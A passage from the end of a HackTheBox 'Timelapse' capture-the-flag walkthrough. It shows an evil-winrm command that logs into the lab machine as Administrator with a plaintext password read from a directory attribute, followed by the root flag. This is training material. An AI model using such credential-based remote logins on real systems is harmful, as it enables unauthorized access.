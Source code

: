 And we can see the Administrator password in the attribute, so let's use it in WinRM and grab the root flag, which was in the user TXR Desktop's:

```bash
evil-winrm -u 'Administrator' -p '-wr8lMxvLm4H)4256zm18i5+' -i 10.10.11.152  -S
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/timelapse/3_0_root.png" width="90%"/>
</p>


``` 9633d77658e0e2d471b6db4bc3a345cc ```